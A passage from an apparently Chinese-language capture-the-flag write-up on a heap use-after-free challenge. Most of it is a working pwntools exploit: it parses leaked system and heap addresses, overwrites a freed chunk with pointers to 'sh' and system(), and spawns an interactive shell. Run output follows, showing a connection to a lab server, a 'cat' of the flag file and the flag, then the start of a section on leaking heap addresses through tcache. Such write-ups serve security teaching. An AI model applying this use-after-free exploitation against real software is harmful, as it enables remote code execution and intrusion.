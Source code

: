 ```python

def delete(idx):
    r.recvuntil(b'choice: ')
    r.send(b'2')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

def set_name(idx, len, name):
    r.recvuntil(b'choice: ')
    r.send(b'3')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Length: ')
    r.send(str(len).encode())
    r.recvuntil(b'Name: ')
    r.send(name)

def trigger_event(idx):
    r.recvuntil(b'choice: ')
    r.send(b'4')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

# Fetch Info
r.recvuntil(b'gift1: ')
system_addr = int(r.recvline()[:-1], 16)
r.recvuntil(b'gift2: ')
heap_addr_leak = int(r.recvline()[:-1], 16)

log.info(f'System Address = {hex(system_addr)}')
log.info(f'Heap Address = {hex(heap_addr_leak)}')

# Exploit Payload
sh_addr = heap_addr_leak + 0x60
register(0)
register(1)
set_name(1, 0x10, b'sh\x00')
delete(0)
set_name(1, 0x18, p64(0) + p64(sh_addr) + p64(system_addr))

trigger_event(0)

r.interactive()
```
```bash
$ python exp.py
[+] Opening connection to 10.113.184.121 on port 10057: Done
[*] System Address = 0x7ff8cd719290
[*] Heap Address = 0x564243d7c2a0
[*] Switching to interactive mode
Name: (null)
$ cat /home/chal/flag.txt
flag{https://www.youtube.com/watch?v=CUSUhXqThjY}
```
## 同場加映
### 如何用UAF leak heap address?
主要的大方向是設法讓free的chunk進入tcache，這樣的話他就會儲存chunk address的info，我們再利用他沒有設為null的UAF漏洞，把他讀出來
```python
register(0)
register(1)
register(2)

```